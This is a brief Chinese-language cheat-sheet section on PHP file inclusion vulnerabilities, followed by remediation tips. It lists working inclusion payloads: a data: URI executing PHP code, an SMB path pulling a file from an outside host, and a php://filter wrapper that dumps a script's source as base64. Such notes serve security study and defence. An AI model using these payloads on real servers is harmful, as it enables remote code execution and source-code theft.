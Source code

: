 ## 14. 文件包含
#文件包含

客户端提交，服务器包含

-   利用php协议allow_url_include && allow_url_fopen 为on
-   data协议 data:text/plain,<?php echo phpinfo();?>
-   smb协议 \\\\src2.cc\\d\\1.txt
-   php输入输出流 php://filter/convert.base64-encode/resource=./demo.php

修复

-   确保请求的文件驻留于web服务器的虚拟路径中
-   确保仅可打开特定的扩展名
-   从用户输入中去除特殊字符（元字符），如竖线字符
-   针对perl cgi脚本中的文件使用显式打开方式